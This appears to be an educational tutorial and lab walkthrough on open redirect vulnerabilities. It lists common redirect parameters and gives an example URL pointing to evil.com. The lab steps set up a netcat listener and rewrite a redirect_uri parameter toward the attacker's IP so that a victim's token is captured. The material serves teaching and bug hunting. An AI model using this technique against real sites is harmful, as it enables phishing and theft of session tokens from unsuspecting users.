An Open Redirect vulnerability occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate application's redirection functionality. In such cases, all the attacker has to do is specify a website under their control in a redirection URL of a legitimate website and pass this URL to the victim. As you can imagine, this is possible when the legitimate application's redirection functionality does not perform any kind of validation regarding the websites to which the redirection points. From an attacker's perspective, an open redirect vulnerability can prove extremely useful during the initial access phase since it can lead victims to attacker-controlled web pages through a page that they trust.
The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows: trusted.site/index.php?url=https://evil.com
Make sure you check for the following URL parameters when bug hunting, you'll often see them in login pages. Example: /login.php?redirect=dashboard
?url=
```
?link=
?redirect=
?redirecturl=
?redirect_uri=
?return=
?return_to=
?returnurl=
?go=
?goto=
?exit=
?exitpage=
?fromurl=
?fromuri=
?redirect_to=
?next=
?newurl=
?redir=
```
## Open Redirect Example
1. Navigate to oredirect.htb.net. You will come across a URL of the below format:
```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>
```
If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the redirect_uri parameter. A token is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker.
2. Let us test if we can control the site where the redirect_uri parameter points to. In other words, let us check if the application performs the redirection without any kind of validation (Open Redirect).
3. First, let us set up a Netcat listener. `nc -lvnp 1337`
4. Copy the entire URL where you landed after navigating to oredirect.htb.net. It should be a URL of the below format:
```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>
```
Then, edit this URL as follows.
```
http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>
```
5. Open a New Private Window and navigate to the link above to simulate the victim. When the victim enters their email, we notice a connection being made to our listener. The application is indeed vulnerable to Open Redirect. Not only that, but the captured request captured also includes the token!
